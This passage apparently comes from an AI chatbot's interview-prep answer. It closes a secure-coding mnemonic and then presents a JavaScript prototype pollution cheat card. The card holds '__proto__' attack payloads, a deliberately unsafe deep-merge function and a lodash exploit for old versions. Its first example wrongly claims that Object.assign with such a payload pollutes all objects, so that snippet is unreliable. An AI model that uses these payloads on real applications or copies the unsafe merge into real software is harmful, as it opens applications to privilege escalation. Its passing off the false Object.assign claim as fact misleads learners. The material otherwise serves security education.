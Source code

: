 * **E**scape output
* **R**emove dangerous APIs (`eval`)
* **I**solate secrets (env vars)
* **F**orce HTTPS / CSP / tokens
* **Y**ield least privilege
---
👉 Do you want me to create a **side-by-side table of vulnerabilities (XSS, CSRF, Injection, etc.) → Symptoms → Mitigations** for quick interview recall?

Here’s your **Prototype Pollution Cheat Card** — this is a big one in interviews and real-world audits.
---
# 🧬 JavaScript Prototype Pollution — Cheat Card
**Concept:**
**Prototype pollution** happens when untrusted input modifies the `__proto__` (or `constructor.prototype`) of base objects, affecting all objects that inherit from it → leading to privilege escalation, data leaks, or logic corruption.
---
## Syntax / Structure (Attack Pattern)
```js
// Attacker payload
const payload = JSON.parse('{"__proto__": {"isAdmin": true}}');
// Merge unsafely
Object.assign({}, payload);
// Now ALL objects inherit polluted prop
({}).isAdmin; // true
```
---
## Examples
```js
// 1) Vulnerable deep merge
function unsafeMerge(target, src) {
  for (let k in src) {
    if (typeof src[k] === "object") {
      unsafeMerge(target[k] = target[k] || {}, src[k]);
    } else {
      target[k] = src[k];
    }
  }
  return target;
}
unsafeMerge({}, JSON.parse('{"__proto__": {"polluted": "yes"}}'));
console.log({}.polluted); // "yes" (polluted)
// 2) Exploiting libraries (historical CVEs)
// lodash <4.17.5, jQuery <3.4.0, Hoek <4.2.1
const _ = require("lodash");
_.merge({}, JSON.parse('{"__proto__": {"admin": true}}'));
console.log(({}).admin); // true
```
---
## Visualization
```
Base Object (Object.prototype)
   ↑
   ├─ Polluted (extra keys injected)
   ↑
   └─ All new objects inherit compromised property
```
---